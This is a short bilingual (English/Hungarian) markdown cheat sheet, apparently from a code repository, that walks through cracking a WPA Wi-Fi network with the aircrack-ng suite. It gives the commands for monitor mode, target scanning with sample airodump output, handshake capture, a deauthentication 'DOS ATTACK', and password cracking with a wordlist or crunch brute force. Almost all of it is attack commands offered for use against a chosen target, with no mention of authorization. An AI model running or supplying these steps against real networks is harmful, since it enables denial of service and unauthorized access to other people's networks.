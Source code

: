# SHOW WLANS

	iwconfig

# START AIRMON MODE
# Megszakad a wifi kapcsolat, ha volt, elkezdünk monitorozni...
# 

### START

```
sudo airmon-ng start wlp6s0
```

### STOP

```
sudo airmon-ng stop wlp6s0mon
```

# MONITORING:

### Show: wlp6s0mon or your network interface...

```
iwconfig
```

### Search Target mac adresses, pl: AA:BB:CC:DD:EE:FF

```
sudo airodump-ng wlp6s0mon
```

# RESULT OF MONITORING:

### Choose your target
```
	 CH 14 ][ Elapsed: 54 s ][ 2020-08-12 19:18 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 AA:BB:CC:DD:EE:FF  -44       61      161    6  11  130        CCMP   PSK  Morfyum-m
 12:12:12:12:12:12  -44       61        3    0  11  130   OPN              WellHello
 33:33:33:33:33:33  -82       61        0    0   6  130   WPA2 CCMP   MGT  UPC Wi-Fr
 34:34:34:34:34:34  -81       55        7    0   6  130   WPA2 CCMP   PSK  UPC453905
 77:77:77:77:77:77  -85       25        0    0   6  270        CCMP   PSK  Telekom-0
 99:99:99:99:99:99  -88       18        0    0   1  130        CCMP   PSK  Telekom-W

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 AA:BB:CC:DD:EE:FF  EC:EC:EC:EC:EC:EC  -29    0 -24     19        5                  
 12:12:12:12:12:12  50:50:50:50:50:50  -46    0 - 0e     0        6                  
 33:33:33:33:33:33  22:22:22:22:22:22  -70    0e- 0e     0      440                  
 77:77:77:77:77:77  E8:E8:E8:E8:E8:E8   -1    1e- 0      0        1             
```

# TYPE YOUR TARGET BSSID, Channel (CH), and the capture file
## monitoring the router for a long time

```
sudo airodump-ng --bssid AA:BB:CC:DD:EE:FF -c 6 -w ./test wlp6s0mon
```

# DOS ATTACK YOUR TARGET WIFI NETWORK

```
sudo aireplay-ng -0 4 -a AA:BB:CC:DD:EE:FF wlp6s0mon
```

# TWO PATH TO CRACK WIFI 

## 1. Is use a word file and attack wifi by .cap file
	# ADD WORDLIST AND TRY TO AUTHENTICATE

```
sudo aircrack-ng ./test-01.cap -w ./wordlists/wordlist.txt
```

### Tipikus hibaüzenet: 
> Ez azért van, mert nem sikerült kellő adatot rögzíteni a .cap fájlba
```
Packets contained no EAPOL data; unable to process this AP.
```

## 2. Use BSSID (mac) and STATION (mac) address, and give combination of letters and number

```
crunch 8 8 qwertzuiopasdfghjklyxcvbnm123456789 | aircrack-ng -w - ./test-01.cap --bssid AA:BB:CC:DD:EE:FF
```
